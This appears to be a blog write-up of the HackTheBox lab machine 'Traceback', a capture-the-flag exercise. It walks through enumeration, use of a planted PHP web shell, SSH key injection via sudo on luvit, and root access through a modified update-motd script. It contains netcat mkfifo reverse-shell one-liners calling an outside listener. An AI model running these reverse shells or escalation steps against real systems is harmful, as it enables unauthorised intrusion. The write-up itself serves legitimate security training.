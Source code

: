 ```yaml
---
layout: post
title:  "HTB Traceback writeup"
date:   2020-08-15 14:07:19
categories: [tutorial]
comments: true
tags: [easy, administrative, traceback, luvit, web server, ssh, key, sysadmin, root, write, shell, nmap, hackthebox]
---
```


Hey guys, this is my writeup for the `HackTheBox` machine `Traceback`. This is my first writeup so it won't be perfect. This was an Easy rated Linux box, The machine starts of with a `web server` that has been `compromised` and defaced, the hacker leaves a `backdoor` behind "for all the net" :), so we do some guess work and find the shell left behind and that's the `foothold`. after accessing the `reverse shell` we do some recon and find that we can run `luvit` with `sudo privileges`, i then write an `ssh key` to the `sysadmins` ssh folder and get a shell as the `sysadmin`, for `root` we have a cron running with administrative privileges that runs everytime on a ssh login, we have the ability write the files that are executed when the cron runs.

![Traceback](/img/tr_con.png)
<!--more-->

So first things first, i run an nmap scan

{% highlight bash %}

  # Nmap 7.80 scan initiated Sun Aug 16 14:15:10 2020 as: nmap -sC -sV -T4 -oA nmap/traceback -Pn 10.10.10.181
  Nmap scan report for 10.10.10.181
  Host is up (0.15s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
  |   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
  |_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-title: Help us
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

{% endhighlight %}

Usually i runa full port scan after this one, but there were no other open ports. So we have ssh and an apache web server, looking at the web server, we have an interesting index page....

![web page](/img/tr_web_page_index.png)

So now we have to find this backdoor now, so next i look at the page source, and there's an interesting comment.

![page source](/img/tr_page_source.png)

So i copied the comment and googled it, it brought me to a [github repository][shells] with a list of web shells, i could've done a better job at guessing which web shell was running on the server but i instead decided to start at the bottom of the list entering each file name, luckily the one i was looking for was second last, but i would normally run a gobust.

{% highlight bash%}
gobuster dir -u http://10.10.10.181/ -w [wordlist] -t 25 -x php,txt -outfile.txt
{% endhighlight %}

![shell](/img/tr_shell.png)

So we got the hit from smevk.php, so the default credentials are admin:admin from looking at the source code of the reverse shell.

![system](/img/tr_smevk.png)

So this php reverse shell script seems to have a lot of funtionality, but i prefer looking around using a shell, we're able to run system commands on one of the form fields so i set a netcat listener and give myself a reverse shell on the machine.

The reverse shell command :
{% highlight bash %}

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 9001>/tmp/f

{% endhighlight %}

The listener :
{% highlight bash %}

rlwrap nc -lvnp 9001

{% endhighlight %}

`rlwrap` allows to use the arrow keys on the netcat shell.

We get a shell :) and use python to get the tty.

![shell](/img/tr_shell_webadmin-1.png)

After this shell i spent a lot of time looking around around, which is why i think doing writeups is weird because we don't show the rabbit hoels we went down XD. but i get it the wriiteup would be a 50 mintue read if we did :)

So since we're running as `webadmin` i check he's home folder, we find a note.

![note](/img/tr_note.png)

So usually on linux i run `LinEnum` and `LinpPeas`, so on the linpeas we have find interesting stuff.... 

So i copy the binaries to my working directory and start a `python` webserver.

{% highlight bash %}
python3 -m http.server 8080
{% endhighlight %}

On the box i use whatever i can to download files, but i like using `wget`
{% highlight bash %}
wget http://10.10.14.114:8080/[file_name]
{% endhighlight %}

![sudo](/img/tr_sudo_perms.png)

I could've also got this with just `sudo -l`, but sometimes when you get a shell you forget the simplest things.

So we can execute the `Luvit` program with sysadmin privileges, Luvit allows us to run `Lua` code, my first idea was to execute system commands through Lua, after a gazillion tries i gave up because it just wouldn't work. So then i attempted to write my piublic ssh key to `authorized_keys` after a few minutes of figuring out how to do that in `Lua`.

Creating an ssh key is easy, just run...

{% highlight bash %}
ssh-keygen -f traceback
{% endhighlight %}

This is the code to append my ssh key to the authorized_keys file

![code](/img/tr_code.png)

Then executed the Lua script with sysadmin privileges.

{% highlight bash %}
sudo -u sysadmin /home/sysadmin/luvit spek.lua
{% endhighlight %}

Then i try login to ssh with the key, but before i do that i have to change the permissions on the key

{% highlight bash %}
chmod 600 traceback
{% endhighlight %}

And i was in as `sysadmin`

![ssh](/img/tr_ssh_sysadmin.png)

On the `LinPeas` output i also saw something else that was interesting, we could write files in the `/etc/update-motd.d`
when i login with ssh run parts executes all the scripts in the directory, these scripts are also backep up every 30 seconds  , 
i found this out after some time analyzing what was happening. i think this was also a way for the hacker to have a way to have root privileges in an easy and hidden way.

![ls_w](/img/tr_ls_w.png) 

After seeing that i ran [Pspy][pspy], a tool for analyzing linux system processes. This is when i saw the backups of the scripts in `/etc/update-motd.d` where being made every 30 seconds.

![ps_py](/img/tr_pspy.png)

This is also means if i modify the one of scripts in this directory it will be removed in 30 seconds.
when i log in with ssh run-parts executes the scripts in `/etc/update-motd.d`.

![run-parts](/img/tr_ssh_pspy.png)

So my method to get root here is simeple now, i have to put a reverse shell command inside one of these scripts owned and executed by root and have a listener.

{% highlight bash %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 9002>/tmp/f
{% endhighlight %}

After making this modification i have to login with ssh during the 30 second period of the scripts not being backed up, after i login i get the root shell.

![root](/img/tr_root_shell.png)

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[shells]: https://github.com/TheBinitGhimire/Web-Shells
[pspy]: https://github.com/DominicBreuker/pspy